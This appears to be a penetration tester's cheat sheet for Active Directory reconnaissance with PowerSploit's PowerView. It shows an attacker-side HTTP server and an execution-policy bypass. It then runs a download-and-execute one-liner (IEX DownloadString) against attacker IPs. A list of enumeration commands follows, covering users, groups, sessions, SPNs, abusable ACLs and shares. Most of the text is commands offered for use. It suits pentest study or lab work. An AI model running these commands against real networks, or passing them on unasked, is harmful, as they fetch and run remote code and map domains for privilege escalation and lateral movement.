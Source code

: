 
/usr/share/windows-resources/powersploit/Recon/PowerView.ps1  
# local  
cd /usr/share/windows-resources/powersploit/Recon/  
python -m http.server 80  
  
# target  
powershell -ep bypass  
IEX(New-Object Net.WebClient).DownloadString('http://192.168.45.167/PowerView.ps1')  
IEX(iwr -uri http://10.10.16.21:81/PowerView.ps1) 
## Domain Info
Get-NetDomain  
  
## Users  
Get-NetUser  
Get-NetUser "fred"  
Get-NetUser | select cn  
Get-NetUser | select cn,pwdlastset,lastlogon  
  
## Groups  
Get-NetGroup | select cn  
Get-NetGroup "Sales Department" | select member  
  
## Computers  
Get-NetComputer   
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion, distinguishedname  
  
## Use Current User to Determine if they have Local Admin privileges on any pc in the domain  
Find-LocalAdminAccess  
  
## Find Logged in Users  
Get-NetSession -ComputerName files04 -Verbose  
  
## Get SPNs  
Get-NetUser -SPN | select samaccountname,serviceprincipalname  
  
## Enumerate ACEs  
```
Get-ObjectAcl -Identity stephanie  
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights  
```
  
## Convert SID to Name  
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-519  
  
## Find Domain Shares  
Find-DomainShare  


## Resolve GUIDS of all Objects 
Get-ObjectAcl –ResolveGUIDs

################


## Scan for interesting abusable permissions

```
Invoke-ACLScanner -ResolveGUIDs
```